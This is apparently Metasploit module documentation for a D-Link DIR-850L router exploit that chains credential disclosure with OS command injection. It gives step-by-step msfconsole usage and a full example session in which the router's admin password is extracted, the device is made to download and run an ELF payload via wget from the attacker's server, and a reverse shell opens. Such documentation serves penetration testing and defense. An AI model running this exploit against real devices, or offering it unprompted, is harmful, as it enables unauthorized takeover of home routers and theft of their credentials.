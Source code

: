 The module dlink_dir850_(un)auth_exec leverages an unauthenticated credential disclosure vulneralbility to then execute arbitrary commands via an authenticated OS command injection
vulneralbility. D-LINK 850L (excluding "Cloud" models) devices with firmware version up to 1.14B07
are potentially vulnerable. The vulneralbility seems to occur within the parsing of the config. Another PoC can be found here https://www.seebug.org/vuldb/ssvid-96333. Setting command to be `reboot` will force the router into an infinite loop.

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dir850l_unauth_exec.rb`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/shell/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session


## Example

```
msf > use exploit/linux/http/dlink_dir850l_unauth_exec
msf exploit(dlink_dir850l_unauth_exec) > set RHOST 192.168.0.14
RHOST => 192.168.0.14
msf exploit(dlink_dir850l_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(dlink_dir850l_unauth_exec) > check
[*] 192.168.0.14:80 The target service is running, but could not be validated.
msf exploit(dlink_dir850l_unauth_exec) > set VERBOSE true
VERBOSE => true
msf exploit(dlink_dir850l_unauth_exec) > set LHOST ens3
LHOST => ens3
msf exploit(dlink_dir850l_unauth_exec) > set LPORT 3131
LPORT => 3131
msf exploit(dlink_dir850l_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:3131
[*] 192.168.0.14:80 - Connecting to target...
[+] 192.168.0.14:80 - Retrieved the username/password combo Admin/92830535
[+] 192.168.0.14:80 - Downloaded credentials to /root/.msf4/loot/20171104113614_default_192.168.0.14_dlink.dir850l.lo_146186.txt
[*] 192.168.0.14:80 - Starting up web service http://192.168.0.11:8080/ZUrlVeWUm
[*] Using URL: http://0.0.0.0:8080/ZUrlVeWUm
[*] Local IP: http://192.168.0.11:8080/ZUrlVeWUm
[*] 192.168.0.14:80 - Asking target to request to download http://192.168.0.11:8080/ZUrlVeWUm
[*] 192.168.0.14:80 - Waiting for target to request the ELF payload...
[*] 192.168.0.14:80 - Sending payload to the server...
[*] 192.168.0.14:80 - Requesting device to chmod ZUrlVeWUm
[*] 192.168.0.14:80 - Requesting device to execute ZUrlVeWUm
[*] 192.168.0.14:80 - Waiting 10 seconds for shell to connect back to us...
[*] Sending stage (84 bytes) to 192.168.0.14
[*] Command shell session 1 opened (192.168.0.11:3131 -> 192.168.0.14:43953) at 2017-11-04 11:36:26 -0400
[+] Deleted /tmp/uoskutcy
[-] Exploit aborted due to failure: unknown: 192.168.0.14:80 - Shell never connected to us!, disconnect?
[*] Server stopped.
[*] Exploit completed, but no session was created.
msf exploit(dlink_dir850l_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

190745749
wUVNdEKSrgeaxdSQyfTyxvaoYgFzyvGj
true
pQfaUhhwMvgnWrLpQXhhUAioNBFHPRZP
OgkEaOTPYbUEOLlLpLFEbodBvHFmVRmH
iNaYBrmsZqFyolPWWRKEHsKglrSlSGkY
pwd
/
```
